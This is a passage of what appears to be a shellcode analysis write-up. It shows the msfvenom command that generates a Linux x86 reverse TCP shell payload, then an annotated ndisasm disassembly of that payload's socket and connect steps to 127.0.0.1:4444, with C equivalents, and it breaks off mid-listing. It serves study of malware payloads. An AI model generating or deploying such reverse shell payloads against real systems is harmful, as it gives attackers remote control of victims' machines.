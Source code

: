 To generate the payload:

```bash
msfvenom -p linux/x86/shell/reverse_nonx_tcp -o shellcode.bin
```

To analyse it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; push 0x00000000
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; push 0x00000001
00000003  43                inc ebx
00000004  53                push ebx

                            ; push 0x02
00000005  6A02              push byte +0x2

                            ; push 0x00000066
00000007  6A66              push byte +0x66

                            ; EAX = 0x66 (102)
00000009  58                pop eax

                            ; 2nd argument of socketcall(): pointer to arguments of SYS_BIND
0000000A  89E1              mov ecx,esp

                            ; call socketcall syscall
0000000C  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
#define AF_INET       2
#define SOCK_STREAM   1
#define IPPROTO_IP    0

int fd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

So, up until now, it created a TCP socket. The file descriptor of the new socket is stored into `EAX`.

Next, the shellcode connects to the server socket (`127.0.0.1:4444`):

```nasm
                            ; exchanges EAX and EDI
0000000E  97                xchg eax,edi

                            ; EBX = 0x2
0000000F  5B                pop ebx

                            ; inet_aton("127.0.0.1")
00000010  687F000001        push dword 0x100007f

                            ; htons(4444)
00000015  6668115C          push word 0x5c11

                            ; push 0x00000002
00000019  6653              push bx

```
